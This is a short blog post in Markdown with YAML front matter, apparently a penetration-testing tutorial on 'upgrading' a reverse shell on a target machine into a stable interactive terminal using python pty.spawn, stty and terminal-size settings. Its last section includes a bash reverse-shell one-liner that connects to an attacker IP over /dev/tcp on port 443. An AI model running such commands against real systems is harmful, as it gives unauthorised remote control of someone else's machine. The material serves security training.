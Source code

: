 ```yaml
---
title:  "Upgrading your reverse shell"
path: ""
type: posts
layout: single
author_profile: true
read_time: true
comments: true
share: true
related: true
future: true
toc: true
toc_sticky: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
header:
    image: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
    caption: "Photo by [**Biel Morro**](https://unsplash.com/@bielmorro?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash) on [**Unsplash**](https://unsplash.com/photos/brown-conch-shell-on-right-human-palm-_l8ZdgJ9m7w?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash)"
    teaser: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```


> After we have gotten our reverse shell, it will have limitations such as no auto-completions and messy file listings. Here is how we can make our shell better inside our target's system:

Upgrading and stabilizing your shell enables you to type in your commands better. There are several ways to upgrade your shell once you are in a target machine.

## First way

For this method to work, we have to check if our target machine has `python2` or `python3` installed via:
```sh
which python
```
If no output is returned, repeat the above step for `python3`.

Assuming you are running bash, in your reverse shell, run the command below for whichever version of `python` available in the target machine:

```sh
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Press on your keyboard: `Ctrl + Z`<br>

On your local host:

```sh
stty raw -echo; fg
```
Press on your keyboard: `Enter` (twice)
> If your shell formatting is off, simply enter the command:
```sh
reset
```

Notice that our shell does not cover our entire terminal. To fix this, we shall open another terminal tab and input the following commands:
```sh
echo $TERM
```
Output: `xterm-256color`
```sh
stty size
```
Output: `70 255`

In our reverse shell:
```sh
export TERM=xterm-256color
stty rows 70 columns 255
```

Our reverse shell should now utilize the terminal's full features!

## Second way
Check the version of python the target system is running in using:
`which python` or `which python3`

Next,

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'  //Upgrade to tty
Ctrl + Z                                        //Background the process
stty raw -echo
fg + Enter
```

Subsequently, turn your unstable shell into a stable one via:
```sh
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
\
\
Thank you for reading!